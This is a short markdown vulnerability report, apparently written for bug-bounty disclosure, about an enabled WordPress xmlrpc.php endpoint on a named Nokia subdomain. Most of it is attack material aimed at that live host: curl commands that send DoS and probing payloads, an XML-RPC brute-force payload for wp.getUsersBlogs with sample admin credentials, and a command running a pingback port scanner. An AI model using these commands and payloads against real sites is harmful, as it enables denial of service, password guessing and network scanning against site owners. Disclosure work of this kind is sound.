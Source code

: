 # Xmlrpc.php 

# Description :
##### Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS and Start Brute Force attack . The website https://wavelite-selector.networks.nokia.com has the xmlrpc.php file enabled
##### In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

```
$ curl -d @do.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
<img src='src/xmlrpc_first.png'>

#### Notice that a successful response is received showing that the xmlrpc.php file is enabled.

### Now i will use 2 attacks (Dos Attack) and (Brute Force)

## Dos Attack

```
$ curl -d @dos.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

#### Response :

<img src='src/nokia_xmlrpc_dos.png'>

## brute force

#### payload

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

<img src='src/ccw.png'>

## Port scanning

#### Download This Tool https://github.com/FireFart/WordpressPingbackPortScanner 

```
./wppps.rb https://wavelite-selector.networks.nokia.com/xmlrpc.php https://wavelite-selector.networks.nokia.com/xmlrpc.php
```

## Reference :
* https://medium.com/@protector47/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740

# Impact

### This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.
### this method is also used for brute force attacks to stealing the admin credentials and other important credentials


<img src='src/xmlrpc_done.png'>
